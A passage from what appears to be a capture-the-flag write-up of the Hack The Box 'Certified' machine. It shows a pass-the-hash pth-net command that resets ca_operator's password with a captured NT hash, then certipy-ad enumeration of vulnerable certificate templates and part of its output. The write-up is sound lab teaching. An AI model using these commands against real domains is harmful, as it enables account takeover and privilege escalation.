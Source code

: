 ![Compromised management_svc Account Proof](Pasted image 20250314145507.png)
_Compromised management_svc Account Proof_
> I skipped right to privilege escalation, but for anyone curious this step is when the `user.txt` flag can be retrieved. 
{: .prompt-info }

## 3. management_svc -> ca_operator
The management_svc account is now compromised and under our control. Therefore, we can leverage the `GenericAll` permissions that management_svc has over ca_operator in order to change the account's password. Since we are working with the management_svc's NT hash we need to utilize the [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) tool in order to change ca_operator's password using pass-the-hash method:
```bash
./pth-net rpc password "ca_operator" 'password123!' -U 'certified.htb'/'management_svc'%'aad3b435b51404eeaad3b435b51404ee':'a091c1832bcdd4677c28b5a6a1295584' -S '10.129.131.186'
```
- `password "ca_operator" 'password123!'` : Change ca_operator's password to 'password123!'. 
- `'certified.htb'/'management_svc'%'aad3b435b51404eeaad3b435b51404ee':'a091c1832bcdd4677c28b5a6a1295584'` : Domain account that to authenticate. This includes an empty LM hash (aad3b435b51404eeaad3b435b51404ee) and the management_svc's NT hash.
- `-S '10.129.131.186'` : Target server, which in this case is the DC.

Despite the `pth-net` tool not outputting any successful execution notification, the password for the ca_operator is changed to 'password123!'. 
![Changing ca_operator Password](Pasted image 20250314151713.png)
_Changing ca_operator Password_

## 4. ca_operator -> Administrator
With the ca_operator's account now compromised we can utilize [certipy](https://github.com/ly4k/Certipy) in order to enumerate the domain's AD Certificate Services (ADCS). 
### 4a. Finding Vulnerable Certificate Templates
Use certipy to search for any vulnerable certificate templates:
```bash
certipy-ad find -u ca_operator -p 'password123!' -target dc01.certified.htb -vulnerable
```
- `-target dc01.certified.htb` : Run enumeration against the specified target server.
- `-vulnerable` : Return vulnerable certificate templates.

The following is outputted by certipy-ad:
```bash
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
```